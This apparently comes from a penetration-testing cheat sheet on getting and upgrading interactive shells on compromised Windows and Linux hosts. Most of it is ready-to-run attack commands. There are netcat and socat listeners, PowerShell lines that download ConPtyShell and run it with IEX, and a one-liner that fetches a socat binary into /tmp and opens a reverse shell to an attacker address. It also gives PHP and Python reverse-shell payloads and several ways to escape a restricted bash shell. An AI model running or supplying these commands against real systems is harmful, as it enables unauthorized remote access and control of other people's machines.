 # ⭕ Shell Escape / Interactive TTY

## <mark style="color:red;">windows interactive reverse powershell</mark>

{% embed url="https://github.com/antonioCoco/ConPtyShell" %}

#### <mark style="color:green;">Server (attacker) Side:</mark>

```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

#### <mark style="color:green;">Client Side (directly load from git repository):</mark>

```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.56.1 3001
```

#### or, if you upload the ps1:

```
IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell 10.0.0.2 3001
```

#### or download the reverse shell and upload it to target yourself

```
wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1
IEX(IWR http://192.168.56.1/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.56.1 9999
```

## <mark style="color:red;">Linux Interactive Shell</mark>

### <mark style="color:orange;">check $SHELL and $PATH</mark>

fix the path problem if you cant access default shells

```
export PATH=/bin:/usr/bin:$PATH
```

### <mark style="color:orange;">Using Python & STTY</mark>

#### <mark style="color:green;">In your current non-interactive reverse shell type:</mark>

```
 python -c 'import pty; pty.spawn("/bin/bash")'
```

#### <mark style="color:green;">press Ctrl+z to send the shell to background</mark>

#### <mark style="color:green;">then in the same terminal type in:</mark>

```
echo $TERM >>> take note of terminal name
stty -a >>> take note of raws and columns numbers
stty raw -echo
fg
```

#### <mark style="color:green;">then you will have an empty terminal, type these:</mark>

```
 reset
 export SHELL=bash
 export TERM=xterm-256color  OR export TERM=xterm
stty rows <num> columns <cols>
```

### <mark style="color:orange;">Using /usr/bin/script</mark>

#### <mark style="color:green;">in your current non-interactive reverse shell type in:</mark>

```
 /usr/bin/script -qc /bin/bash /dev/null
```

the rest is like the above method, we just use /usr/bin/script if python is not installed

### <mark style="color:orange;">Using Socat & STTY</mark>

<mark style="color:green;">**attacker:**</mark>

```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

<mark style="color:green;">**victim:**</mark>

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If socat isn’t installed, you’re not out of luck. There are standalone binaries that can be downloaded from this awesome Github repo:

{% embed url="https://github.com/andrew-d/static-binaries" %}

With a command injection vuln, it’s possible to download the correct architecture socat binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## <mark style="color:red;">Semi-interactive Spawn & Escape</mark>

### <mark style="color:orange;">​​rbash escape through SSH</mark>

```
ssh hackNos@<IP-Adress> -t "bash --noprofile"
```

### <mark style="color:orange;">rbash escape through editors</mark>

```
vi
:set shell=/bin/bash
:shell
```

### <mark style="color:orange;">escaping rbash – editor</mark>

```
ed
!'/bin/bash'
pwd
```

### <mark style="color:orange;">escape rbash through reverse shell</mark>

```
nc -lvp 4545
php -r '$sock=fsockopen("ip-address",port);exec("/bin/bash -i <&3 >&3 2>&3");'
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip-address",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

### <mark style="color:orange;">rbash escape Awk</mark>

```
awk 'BEGIN {system("/bin/bash")}'
```

### <mark style="color:orange;">interpreters</mark>

```
python -c 'import pty; pty.spawn("/bin/sh");'  
python3 -c 'import os; os.system("/bin/bash");'
perl -e 'exec "/bin/sh";'
ruby -e ‘exec "/bin/sh"’
lua -e 'os.execute('/bin/sh')'
```

### <mark style="color:orange;">rbash bypass through binary file</mark>

```
less anyfile.txt
!'bash'
```

### <mark style="color:orange;">sh</mark>

```
/usr/bin/script -qc /bin/bash /dev/null
echo os.system('/bin/bash')
/bin/sh -i
exec "/bin/sh"
```

### ​​<mark style="color:orange;">within nmap</mark>

```
!sh
```

### <mark style="color:orange;">rlwrap for Making the Shell Semi-interactive</mark>

```
# use with netcat or other shells
rlwrap nc -nvlp 1234
```

### <mark style="color:orange;">in meterpreter</mark>

```
execute -f cmd.exe -H -c -i
```
